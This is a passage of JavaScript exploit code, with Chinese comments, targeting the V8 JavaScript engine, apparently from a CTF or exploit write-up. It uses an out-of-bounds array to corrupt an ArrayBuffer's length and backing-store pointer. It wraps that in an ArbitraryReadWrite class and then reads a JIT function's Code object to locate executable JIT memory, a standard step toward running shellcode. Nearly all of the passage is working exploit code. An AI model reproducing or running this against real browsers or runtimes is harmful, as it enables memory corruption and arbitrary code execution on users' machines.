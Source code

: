 ```
        // 更改一下array buffer的length，这样我们就可以知道是哪个
        // array buffer被改动了
        changed_idx = i;
        oobArray[i] = (new Int64(0x121200000000)).asDouble();
        oobArray[i + 3] = (new Int64(0x1212)).asDouble();
        break;
    `}`
`}`

if (changed_idx === 0) `{`
    throw new Error("array buffer not found");
`}`

let arw = null;

for (let i = 0;i &lt; bufs.length; i++) `{`
    if (bufs[i].byteLength == 0x1212) `{`
        // 找到了改动之后的buffer
        console.log('changed buffer found');

        // 封装成一个用来进行任意读写的object
        class ArbitraryReadWrite `{`
            constructor(changed_idx_oob, changed_idx_bufs) `{`
                this.idx_in_oob_arr = changed_idx_oob;
                this.idx_in_bufs_arr = changed_idx_bufs;
            `}`

            read(addr) `{`
                // 更改backing store
                let i = this.idx_in_oob_arr;
                oobArray[i + 1] = addr.asDouble();
                //%DebugPrint(bufs[this.idx_in_bufs_arr]);
                oobArray[i + 2] = addr.asDouble();
                let arr = new Float64Array(bufs[this.idx_in_bufs_arr], 0, 0x10);
                //%DebugPrint(arr);
                return Int64.fromDouble(arr[0]);
            `}`

            write(addr, vals) `{`
                let i = this.idx_in_oob_arr;
                oobArray[i + 1] = (new Int64(addr)).asDouble();
                oobArray[i + 2] = (new Int64(addr)).asDouble();
                let arr = new Uint8Array(bufs[this.idx_in_bufs_arr]);
                arr.set(vals);
            `}`
        `}`

        arw = new ArbitraryReadWrite(changed_idx, i);
        break;
    `}`
`}`

if (arw === null) `{`
    throw new Error("arbitrary read write object construcion failed");
`}`

/* 对于optimized function, +48 对应Code object，紧接在Code object之后的就是jit代码
 * Code object 的size是96, 注意最后末位的flag bit
 * （不过对于如何从Optimized Function里得到48这个偏移量，我暂时还没有找到 */
let code_addr = arw.read(Add(jit_func_obj_ptr, 48));
console.log('code addr ' + code_addr);
let jit_code_addr = Add(code_addr, 95);

```